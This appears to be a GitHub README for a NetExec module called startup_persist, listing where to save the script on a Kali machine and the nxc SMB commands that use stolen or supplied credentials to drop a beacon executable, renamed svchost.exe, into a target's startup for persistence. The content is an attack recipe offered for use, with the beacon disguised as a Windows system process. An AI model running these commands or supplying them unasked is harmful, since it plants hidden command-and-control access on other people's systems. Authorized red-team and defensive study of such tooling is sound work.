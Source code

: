 # NXC-Extension

## Staging
```
Save Python script to:
/home/kali/.nxc/modules/startup_persist.py
/usr/lib/python3/dist-packages/NetExec/nxc/modules/startup_persist.py

```

## Execution
```
nxc smb $IP -u '$username' -p '$password' -M startup_persist -o FILEPATH=/home/kali/Desktop/beacon.exe FILENAME=svchost.exe
  or
nxc smb $IP -u '$username' -p '$password' -M startup_persist -o FILEPATH=/home/kali/Desktop/beacon.exe FILENAME=svchost.exe USER=$user
```

![nxcpic](https://github.com/user-attachments/assets/c474d207-aa78-426b-8292-e077f10e549d)


### Video
https://vimeo.com/1076489136
